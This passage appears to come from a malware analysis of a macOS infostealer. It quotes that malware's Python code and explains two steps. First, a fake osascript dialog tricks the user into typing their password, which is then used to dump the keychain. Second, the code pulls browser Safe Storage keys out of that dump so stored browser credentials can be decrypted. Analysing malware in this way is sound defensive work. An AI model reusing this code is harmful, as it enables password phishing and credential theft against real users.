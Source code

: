 At `(7)`, ` Keychain.keychain()` is called. It first uses `AppleScripts` to display a dialogue box to trick the affected user to reveal their password and uses the password to dump all generic passwords stored in the default keychain.
```python
# file keychain.py
[...]
                    osascript_var = 'osascript -e \'display dialog "{message}" with title "{title}" with icon caution default answer "" with hidden answer\' '
                    security_cmd = 'security list-keychains'
                    osascript_var = osascript_var.format(message=(A.popup_text), title=(A.popup_title))
                    osascript_output = subprocess.check_output(osascript_var, shell=G)
                    if not osascript_output or osascript_output == '':
                        continue
                    else:
                        user_password = osascript_output.decode(_D).split('text returned:')[1].strip().replace('\n', '')
                    if not user_password or user_password == '':
                        continue
                    else:
                        security_cmd_output = subprocess.check_output('security default-keychain', shell=G)
                        security_cmd_output = security_cmd_output.decode(_D).strip().replace('"', '')
                        I = chainbreaker.Chainbreaker(security_cmd_output, unlock_password=user_password)
                        C = I
     [...]

            A.passwords = C.dump_generic_passwords()
            return [A.passwords, user_password]
	    
```
At `(8)`, `Keychain.get_safe_key()` iterates through the generic password to find browsers' safe storage passwords. These passwords may be used to steal and decrypt credentials stored by browsers. 

```python
# file keychain.py
[...]
        B.decryption_keys = [
         {A: 'amigo', _A: 'Amigo Safe Storage', _B: _C}, {A: 'torch', _A: 'Torch Safe Storage', _B: _C}, {A: 'kometa', _A: 'Kometa Safe Storage', _B: _C}, {A: 'orbitum', _A: 'Orbitum Safe Storage', _B: _C}, {A: 'cent-browser', _A: 'CentBrowser Safe Storage', _B: _C}, {A: '7star', _A: '7Star Safe Storage', _B: _C}, {A: 'sputnik', _A: 'Sputnik Safe Storage', _B: _C}, {A: 'vivaldi', _A: 'Vivaldi Safe Storage', _B: _C}, {A: 'google-chrome-sxs', _A: D, _B: _C}, {A: 'google-chrome', _A: D, _B: _C}, {A: 'epic-privacy-browser', _A: 'Epic Privacy Browser Safe Storage', _B: _C}, {A: 'microsoft-edge', _A: 'Microsoft Edge Safe Storage', _B: _C}, {A: 'uran', _A: 'uCozMedia Safe Storage', _B: _C}, {A: 'yandex', _A: 'Yandex Safe Storage', _B: _C}, {A: 'brave', _A: 'Brave Safe Storage', _B: _C}, {A: 'Iridium', _A: 'Iridium Safe Storage', _B: _C}, {A: 'Edge', _A: 'Edge Safe Storage', _B: _C}]
[...]	 
 def get_safe_key(A, passwords):
        for password in passwords:
            for decryption_key in A.decryption_keys:
                if password.PrintName.decode(_D) == decryption_key[_A]:
                    decryption_key[_B] = password.password

        return A.decryption_keys
[...]
```
